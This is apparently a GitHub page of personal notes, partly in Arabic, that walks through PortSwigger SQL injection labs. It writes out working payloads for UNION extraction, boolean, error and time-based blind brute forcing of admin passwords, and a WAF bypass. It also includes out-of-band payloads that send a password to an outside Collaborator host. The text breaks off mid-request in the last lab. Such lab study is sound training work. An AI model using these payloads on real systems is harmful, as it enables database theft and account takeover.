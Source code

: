 # Sqli  


- <details>
	<summary>SQLI</summary>

	
	# 🕵️ SQL Injection Detection & Classification Cheat Sheet
	
	## 1. اكتشاف وجود SQL Injection
	
	### Classic Tests
	
	-   جرّب إدخال رموز لكسر الكويري:
	
	    ``` sql
	    '
	    "
	    --
	    #
	    ```
	
	-   لو ظهر Error → غالبًا **Error-based SQLi**
	
	-   لو النتيجة اتغيّرت من غير Error → ممكن **Boolean-based SQLi**
	
	-   لو الاستجابة بقت أبطأ (Delay) → ممكن **Time-based SQLi**
	
	### لو مفيش فرق واضح
	
	-   الاستجابة واحدة، مفيش Error أو Delay.
	-   هنا نشك إن في **Blind SQLi**.
	
	------------------------------------------------------------------------
	
	## 2. إمتى نستخدم Out-of-Band (OAST)?
	
	-   لما الـ Response مبيورّيكش أي فرق.
	-   لما الكويري يتنفذ Asynchronously (خلف الكواليس).
	-   نحتاج نشوف التنفيذ من خلال قناة خارجية (DNS / HTTP request).
	
	**الفكرة**: تخلي قاعدة البيانات تبعت Request خارجي ليك. - DNS Lookup →
	يظهر عندك في Burp Collaborator. - HTTP Request → يظهر برضه في
	Collaborator أو سيرفرك.
	
	------------------------------------------------------------------------
	
	## 3. تحديد نوع SQLi
	
	  -----------------------------------------------------------------------
	  النوع                                             العلامة
	  ------------------------------------------------- ---------------------
	  **Error-based**                                   رسالة خطأ واضحة
	
	  **Boolean-based**                                 فرق في النتيجة بين
	                                                    True/False
	
	  **Time-based**                                    فرق في زمن الاستجابة
	                                                    (sleep)
	
	  **Out-of-Band**                                   مفيش فرق في النتيجة
	                                                    ولا الوقت → بس تشوف
	                                                    اتصال خارجي
	  -----------------------------------------------------------------------
	
	------------------------------------------------------------------------
	
	## 4. خطوات عملية
	
	1.  **حدد الـ Input** (URL, Cookie, Header, Form).
	
	2.  **جرّب Classic Payloads**:
	
	    ``` sql
	    ' OR '1'='1
	    ```
	
	    -   Error؟ → Error-based
	    -   فرق في النتيجة؟ → Boolean-based
	    -   Delay؟ → Time-based
	
	3.  **لو مفيش حاجة ظهرت** → جرّب **Out-of-Band Payload** (مثال: DNS
	    lookup).
	
	4.  **راقب Burp Collaborator / Server Log**:
	
	    -   لو شفت اتصال → SQLi Confirmed ✅
	
	------------------------------------------------------------------------
	
	## 5. في حالة PortSwigger Lab
	
	-   الـ Query بيتنفذ **Asynchronously**.
	-   الاستجابة مش بتتغير.
	-   الحل الوحيد → **Out-of-Band SQLi** باستخدام Collaborator.
	


  </details>



- <details>
	 <summary>Out of band SQLI</summary>

	
	
	
	# Exploiting Blind SQL Injection using Out-of-Band (OAST) Techniques
	
	## 1. فكرة الهجوم
	في بعض التطبيقات، يتم تنفيذ الاستعلام SQL بشكل غير متزامن (asynchronous).  
	هذا يعني أن التطبيق يعالج طلب المستخدم في خيط (thread) واحد، بينما يتم تنفيذ الاستعلام في خيط آخر.  
	بالتالي، لن تنجح الطرق التقليدية مثل:
	- استرجاع بيانات مباشرة في الاستجابة.
	- الاعتماد على الأخطاء.
	- قياس وقت التنفيذ.
	
	لأن الاستجابة لا تتأثر مباشرة بالاستعلام.
	
	---
	
	## 2. الحل: الهجمات Out-of-Band (OAST)
	يمكن استغلال الثغرة من خلال إجبار قاعدة البيانات على **تنفيذ تفاعل شبكي خارجي** مع سيرفر نتحكم فيه (مثل Burp Collaborator).  
	هذا يسمح لنا:
	- بالتأكد من وجود الحقن.
	- أو حتى **تهريب البيانات** من خلال هذا التفاعل.
	
	---
	
	## 3. البروتوكولات المستخدمة
	يمكن استخدام بروتوكولات متعددة، لكن الأكثر شيوعًا وفعالية هو **DNS** لأنه غالبًا غير محجوب داخل الشبكات الإنتاجية.
	
	---
	
	## 4. Burp Collaborator
	Burp Suite Pro يوفر أداة اسمها **Burp Collaborator**:
	- تعطيك دومين فرعي فريد.
	- تسمح لك بمراقبة أي استعلامات DNS أو HTTP تصل من الهدف.
	- تُظهر إذا كان هناك **تفاعل خارجي** حصل بسبب البايلود.
	
	---
	
	## 5. مثال على Microsoft SQL Server
	حقن بسيط يجبر السيرفر على عمل استعلام DNS:
	```sql
	'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
	```
	هذا يسبب Lookup على:
	```
	0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
	```
	
	---
	
	## 6. استخراج البيانات (Data Exfiltration)
	يمكن استغلال نفس الأسلوب لتهريب البيانات.  
	مثال: جلب كلمة مرور الـ Administrator:
	```sql
	'; declare @p varchar(1024);
	set @p=(SELECT password FROM users WHERE username='Administrator');
	exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
	```
	ينتج عنه Lookup على دومين يحتوي على كلمة المرور:
	```
	S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
	```
	
	---
	
	## 7. أهمية OAST
	- نسبة نجاح عالية.
	- يمكن استخراج البيانات مباشرة.
	- غالبًا أفضل من تقنيات Blind الأخرى (Time-based, Boolean-based).
	
	---
	
	## 8. الوقاية من Blind SQL Injection
	منع هذا النوع من الهجمات يتم بنفس خطوات منع SQL Injection التقليدي:
	- **استخدام الاستعلامات المجهزة (Parameterized Queries / Prepared Statements).**
	- عدم دمج إدخال المستخدم مباشرة داخل الاستعلام SQL.
	
	
	



  </details>


-----

# **`sqli Labs`**

<details>
  <summary>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</summary>

> ### This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---
 
* ```url
  /filter?category=Pets
  ```
  * ```url
    /filter?category=Pets' or 1=1 --
    ```

  
</details>







<details>
  <summary>Lab: SQL injection vulnerability allowing login bypass</summary>

> ###  This lab contains a SQL injection vulnerability in the login function.
* > To solve the lab, perform a SQL injection attack that logs in to the application as the ``administrator`` user.

---


```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=user&password=pass
```
put username = ``administrator" --`` and write any passowrd it will be ignored anyway and if ``'`` not work try ``"``

```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=administrator' --&password=pass
```

  
</details>




<details>
  <summary>Lab: SQL injection attack, querying the database type and version on Oracle ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* > To solve the lab, display the database version string. 

* <details>
     <summary>Hint</summary>

  On Oracle databases, every ``SELECT`` statement must specify a table to select ``FROM``. If your ``UNION SELECT`` attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
  
  There is a built-in table on Oracle called ``dual`` which you can use for this purpose. For example: ``UNION SELECT 'abc' FROM dual``   

  </details>


⚠️⚠️
<details>
  <summary>aobut union injection</summary>

✅ أولاً: "تتأكد إن أنواع البيانات في الأعمدة المتحده (unioned) متوافقة" يعني إيه؟
لما تستخدم ``UNION``، انت بتدمج نتيجتين مع بعض، فلازم الأعمدة اللي في الاستعلام الأول والتاني يكونوا نفس العدد ونفس نوع البيانات.

مثال توضيحي:
لو الاستعلام الأصلي بيرجع:

```sql
id (رقم), name (نص), email (نص)
```

فأنت لازم تكتب: 

```sql
UNION SELECT 1, 'admin', 'admin@example.com'
```
  
</details>
⚠️⚠️

----


```
/filter?category=Gifts
```
first check number of coulmns :

* ```url
  /filter?category=Gifts'union select null FROM dual--
  ```

* ```url
  /filter?category=Gifts'union select null,null FROM dual--
  ```

for check type of coulmns :

* ```url
  /filter?category=Gifts'union select 'a','a' FROM dual--
  ```

now try to know database version :

* **``Oracle :``**
   * ``SELECT banner FROM v$version``
   * ``SELECT version FROM``
   * ``v$instance``

* **``Microsoft :``**
   * ``SELECT @@version`` 

* **``PostgreSQL :``**
   * ``SELECT version()``

* **``MySQL :``**
   * ``SELECT @@version`` 



* ```url
  /filter?category=Gifts'union SELECT banner,NULL FROM v$version--
  ```



  
</details>








<details>
  <summary>Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> To solve the lab, display the database version string. 


---

```url
' UNION SELECT 'abc','def'#
```

* ```
  ' UNION+SELECT @@version, NULL#
  ```

  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on non-Oracle databases ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the ``administrator`` user. 


---

```
/filter?category=Gifts' union select NULL,NULL--
```

* <details>
     <summary>⚠️list tables in database⚠️</summary>




  
  ## 🔍 1. Determine the Number of Columns
  
  ```sql
  ' ORDER BY 1--
  ' ORDER BY 2--
  ...
  ' ORDER BY N--
  ```
  
  أوقف عند أول رقم يعطيك خطأ → عدد الأعمدة هو الرقم السابق.
  
  أو باستخدام `UNION SELECT NULL`:
  
  ```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL--
  ```
  
  حتى لا يظهر خطأ.
  
  ---
  
  ## 🧠 2. Find Reflectable Columns (أي عمود يظهر على الصفحة)
  
  ```sql
  ' UNION SELECT 'a', NULL--
  ' UNION SELECT NULL, 'a'--
  ```
  
  غيّر مكان `'a'` لترى أين يظهر على الصفحة.
  
  ---
  
  
  
  ## 📋 4. List Tables in the Database
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='public'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables--
  -- OR --
  ' UNION SELECT name, NULL FROM sys.tables--
  ```
  
  ### 🟠 Oracle
  
  ```sql
  ' UNION SELECT table_name, NULL FROM all_tables--
  ```
  
  ---
  
  ## 📑 5. List Columns in a Table
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ---
  
  ## 🧪 Example (MySQL)
  
  - Suppose we know the number of columns is 2, and the first column reflects to the page:
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  

  
 

     
   </details>


* ```sql
  ' UNION SELECT table_name,+NULL FROM information_schema.tables--
  ' union select table_name,null from all_tables --
  ```

![image](https://github.com/user-attachments/assets/5dca3238-d8de-478c-9975-a5e940982015)

```
users_qtmswl
```

found tables 

* ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_qtmswl'--
  ' union select column_name,null from all_tab_columns where table_name='USERS_KWPGKQ'--
  ```

found colums:

```
username_xwttla
email
password_ztcwwk
```

* ```sql
  ' UNION+SELECT username_xwttla, password_ztcwwk FROM users_qtmswl--
  ```

![image](https://github.com/user-attachments/assets/c759f3d6-5a1b-4884-885e-9b4ac82fa789)

```
administrator : 3cwvdutv09z9slmekkwm
```
  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on Oracle</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user. 

---


```
'+UNION+SELECT+'abc','def'+FROM+dual--
```

```sql
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

* ```
  USERS_PURPGR
  ```

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PURPGR'--
```

* ```
  PASSWORD_BGNVEO
  USERNAME_WWJQEC
  ```

```
'+UNION+SELECT+USERNAME_WWJQEC,+ PASSWORD_BGNVEO+FROM+USERS_PURPGR--
```

* ```
  administrator
	io37vj2yyj6q36piu2uo
  carlos
	gthqs6kajajbsnpy9xc1
  wiener
	46bp8uni00wnytsv0yob
  ```



  
</details>







<details>
   <summary>Lab: SQL injection UNION attack, determining the number of columns returned by the query</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
> To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 


---

```SQL
/filter?category=Pets' union select NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL,NULL --
```





</details>







<details>
	<summary>Lab: SQL injection UNION attack, finding a column containing text</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

> The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 


---

```url
/filter?category=Gifts' union select 'a',NULL,NULL --
```

```url
/filter?category=Gifts' union select NULL,'a',NULL --    <== correct one
```

```url
/filter?category=Gifts' union select NULL,NULL,'a' --
```
 
</details>










<details>
	<summary>Lab: SQL injection UNION attack, retrieving data from other tables</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user. 

---


```url
/filter?category=Pets' union select null,null--
```


```url
/filter?category=Pets' union select username,password from users --
```

* ```
  wiener
	n94f86gz294x7zoonr1z
  administrator
	necgrjfgn42l9sxu160v
  carlos
	sunapc1n4575hvqzdaa1
  ```







 
</details>














<details>
	<summary>Lab: SQL injection UNION attack, retrieving multiple values in a single column</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user.


---

do concatenate to values in one column 

```url
/filter?category=Gifts' union select null,username ||' ==> '|| password from users --
```

![image](https://github.com/user-attachments/assets/3e6dd0bf-cb7c-4d21-92e5-14177f69629e)


* ```
  administrator ==> qicuka8mgvvmtdzjsk76
  wiener ==> y48w02o728mfhp76c9u3
  carlos ==> n4k3vrh25quekpp6ieje
  ```

 
</details>





---


<details>
	<summary>Lab: Blind SQL injection with conditional responses (boolan)</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> #### The results of the SQL query are not returned, and no error messages are displayed. But the application includes a ``Welcome back`` message in the page if the query returns any rows.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

> To solve the lab, log in as the ``administrator`` user. 



---


```http
GET / HTTP/1.1

Host: 0ab3003c04435bb280113582003400f4.web-security-academy.net
Cookie: TrackingId=sBgKk2u4kNA0mWuX; session=vLPAZFMJ5ApvFggeT85YmjbwpttZwrj8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```

Notice :

```http
TrackingId=sBgKk2u4kNA0mWuX;
```

First to check if it vuln or not 

```
TrackingId=sBgKk2u4kNA0mWuX' and 1=1 --;
```
notice ``Welcome Back`` appear in page

![image](https://github.com/user-attachments/assets/738470a1-011a-4fa1-bd7e-c8a655248a27)

now make sure that there is user call ``adminstrator`` by using subquery check :

```sql
' and (SELECT  'a' FROM users WHERE username='administrator')='a' --
```

if user exist

* ```sql
  ' and 'a' = 'a' --  == True
  ```

Now start Exploiting

```
' and (SELECT  'a' FROM users WHERE username='administrator' AND LENGTH(password)=1 )='a' --
```
send request to intruder and put numbers instead of 1 until 30 for example and grep&match ``Welcome back!``see when it change the response here it is ``20``

![image](https://github.com/user-attachments/assets/29e4e810-5dbe-47e1-9e7e-31e3fefdb857)


```http
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
```

```sql
' and (SELECT  SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' --
                                 [1]                                              [2]
```

> first ``1`` refer to first char from passowrd second ``1`` refer to this query will retrun one char 

IN INTRUDER MAKE ATTACK TYPE FROM sniper TO cluster bomb TO MULTIPLE PAYLOAD { [1],[2] } NOW IN FIRST PAYLOAD [1] MAKE IT TRY 
      FROM 1 TO 20 AND IN SECOND PAYLOAD [2] TRY FORM [a-z+0-9] AND IN SETTINGS OF INRUDER MAKE GREP-MATCH WITH YOUR VALUE 
      IN THIS EXAMPLE IS " Welcome Back! " NOW IT WILL BRUTE FORCE AND YOU WILL GIT THE PASSWORD

```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 p    m    i    w    y    x    x    o    a    o     z     p     b     1     x     o     c     m     q    j
```

```
pmiwyxxoaozpb1xocmqj
```
 
</details>







<details>
	<summary>Lab: Blind SQL injection with conditional errors</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> #### The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

> To solve the lab, log in as the ``administrator`` user. 

---

to check --- internal server error---  add ``'``

```url
TrackingId=Gpf75xlv9ccLL8ZV'
```

now it injectable to what kind?? 

```url
0iLsW0UwGLuOfA5J' and 1=1 --    no error
0iLsW0UwGLuOfA5J' and 1=0 --    no error        
```

there is no error so it is not boolan blind injunction

now to detrmine it error based:

```url
TrackingId=Gpf75xlv9ccLL8ZV''  no error
```
no error appear that is mean we can do subqery inside ``' '``

to make sure that there is user called ``administrator``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT '' FROM users WHERE username='administrator') || '--
```

no error so there is user call ``administrator`` but wait if you try to but wrong user for example 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (select '' from users where username='plaplapla') || '--
```

no error also ⚠️⚠️

so how to make sure if really there is user call ``administrator`` :

```url
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    error  appear because 1/0
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    no error 
```

now try to know if there is user call ``administrator`` with same way 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator') ||'--
```

here he check **first** if there is user call ``administrator`` if there is will excute ``SELECT CASE`` statement and there will be error 

but if there is no user called ``administrator`` the ``SELECT CASE`` will not excuted and no error will appear 

now if we try fake suer ``plaplapla``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='plaplapla') ||'--
```
no error appear so user not exist

now we want to konw length of passowrd:

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and LENGTH(password)=1) ||'--
```
send to intruder and select ``1`` and put value form ``1 to 30`` and when error appear that will be the length

![image](https://github.com/user-attachments/assets/400863d8-0caa-451c-bfcb-5ef297434b01)

so passowrd length is **``20``**

now brute force it :

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and substr(password,1,1)='a')||'--
```



```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 y    0    x    9    p    0    p    2    c    i     2     q     1     i     u     n     d     r     x    q
```

```
y0x9p0p2ci2q1iundrxq
```


 
</details>









<details>
	<summary>Lab: Visible error-based SQL injection  (visible errors)</summary>


> ###  This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``. To solve the lab, find a way to leak the password for the ``administrator`` user, then log in to their account.

---


```url 
XGb1lTKF70BvkHkM'                 error appear
XGb1lTKF70BvkHkM'--               error disappear      so it is vulnerable 
```

```url
TrackingId=E4OUmE1Kd6YYqUU2' and CAST((SELECT 1) AS int)--
TrackingId=E4OUmE1Kd6YYqUU2' and 1 ==> (int) not (boolean)
```

![image](https://github.com/user-attachments/assets/c4fa4f22-4984-4cc3-a7de-6b41cd188579)


```url
TrackingId=E4OUmE1Kd6YYqUU2' and 1=CAST((SELECT 1) AS int)--   no errors
TrackingId=E4OUmE1Kd6YYqUU2' and 1=1
TrackingId=E4OUmE1Kd6YYqUU2' and True
```

now exploit

```
TrackingId=E4OUmE1Kd6YYqUU2' and 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/user-attachments/assets/28b17321-de6a-417c-959c-31579dac836b)


> error because the request is too long so we clear tracking id

```
TrackingId=' and 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/user-attachments/assets/d12ac037-ac94-4a24-a532-b88dd0cf9c4c)

now try to appear first row as error but has name of first user

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

![image](https://github.com/user-attachments/assets/e1006871-fea9-49c0-a530-bcd979c739ad)

it work so first user is ``administrator``

now appear first password as error

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- 
```

![image](https://github.com/user-attachments/assets/ddcdd86d-847b-47cc-b3aa-b7b767588680)

```
administrator : cuqjexnaphj1h9gz3b6y
```


 
</details>











<details>
	<summary>Lab: Blind SQL injection with time delays</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. 

---

```url
TrackingId=1Pe7nqjCl5ZZt9q7' ||(SELECT pg_sleep(10))--'
```


 
</details>









<details>
	<summary>Lab: Blind SQL injection with time delays and information retrieval</summary>


> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

> To solve the lab, log in as the ``administrator`` user. 


---

First test if vuln by make delay ``10s``

```url
TrackingId=UEptVxSAS3n40Lpj'||(SELECT pg_sleep(10)) --
```

and it work so it vulnarable 

now we want to make sure that there is user called ``administrator``

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

delay happend so user is exist 

now will find passowrd length by send this request to intruder and change 1 to range form ``1 to 30``

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator' and LENGTH(password)=1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

![image](https://github.com/user-attachments/assets/653beef2-c0e8-4309-aab0-51eeeb150031)

so length is ``20``

now do brute force to find password

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator' and substr(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```


<details>
	<summary>the payload</summary>

```
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
0
1
2
3
4
5
6
7
8
9
A
B
C
D
E
F
G
H
I
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z
```

 
</details>


```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 f    n    v    q    9    x    0    4    m    z      f    r     j     8     x      2    t      d     1   o
```


**``Password``**

```
fnvq9x04mzfrj8x2td1o
```
 
</details>












---

<details>
	<summary>Lab: SQL injection with filter bypass via XML encoding</summary>

> ###  This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

> The database contains a ``users`` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

* <details>
	<summary>Hint</summary>

	> ## A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the **``Hackvertor``** extension to do this. 
 
  </details>


---

to know how number of columns

```
<storeId>1 UNION SELECT NULL</storeId>
```

but but the firewall will send forbidden 

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17


"Attack detected"
```

from ``hackvertor`` do encode to ``UNION SELECT NULL`` using ``hex_entities`` that you bypass the firewall

```html
1 <@hex_entities> UNION SELECT NULL </@hex_entities>
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14



921 units
null
```

so it have 1 column now get username and password 

```html
1 <@hex_entities>

UNION SELECT username || ' = ' || password FROM users

</@hex_entities>
```


```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 106



carlos = 7pvl2i5kf9bz7cmzq9pc
administrator = 9soloagn82b9rgya99uw
wiener = ee0as2ryc270mq7aw8ir
921 units
```


 
</details>







---


<details>
	<summary>Lab: Blind SQL injection with out-of-band interaction</summary>



```http
GET / HTTP/2
Host: 0a0c00a504d6b17e8011087100b00049.web-security-academy.net
Cookie: TrackingId=9i21anLCGt7ftKQN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//kqe26m39irpxxcvbe2vwq8yrxi39r3fs.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=Z6loZ0pQZQYFOxZDUXj5QNDj5oM2LMnE
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

### **`the payload`**

```url
TrackingId=9i21anLCGt7ftKQN'+UNION+SELECT+EXTRACTVALUE(xmltype('
<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>
<!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//kqe26m39irpxxcvbe2vwq8yrxi39r3fs.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```


<img width="1916" height="483" alt="image" src="https://github.com/user-attachments/assets/bb41b5d7-097c-49b9-8a2c-7761d89893d6" />



- <details>
   
   <img width="812" height="623" alt="image" src="https://github.com/user-attachments/assets/0c6005a4-919a-4a22-bd6b-94fbb597f509" />

 
  </details>



 
</details>









<details>
	<summary>Lab: Blind SQL injection with out-of-band data exfiltration</summary>





```http
GET / HTTP/2

Host: 0a5d00a904001c92814e203400120057.web-security-academy.net
